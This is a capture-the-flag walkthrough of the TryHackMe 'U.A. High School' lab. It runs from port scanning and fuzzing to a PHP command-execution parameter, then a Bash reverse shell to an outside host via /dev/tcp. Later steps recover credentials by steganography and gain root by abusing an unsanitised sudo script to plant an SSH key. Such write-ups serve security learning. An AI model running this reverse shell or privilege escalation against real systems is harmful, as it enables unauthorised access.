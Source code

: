 # TryHackMe - U.A. High School

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><img src=".gitbook/assets/0kDwX7EBOB.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bl1M1Cq18Q.png" alt=""><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><img src=".gitbook/assets/jttPqhkBeb.png" alt=""><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

We run `sudo -l` and find a script that allows the user to input something to save to a file, but it's not sanitised properly so we can make this write to whatever file we want!

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We run a POC by saving some random contents to a file then checking the permissions, and we see it's owned by root. Since we only have writing permissions our route for root here is to simply upload our own public SSH key and then SSH into the box.

We grab our public key and then run the script again, saving it into the default location where authorised keys should be stored...

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We attempt to SSH into the box which is successful and as such, gives us the box!

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>
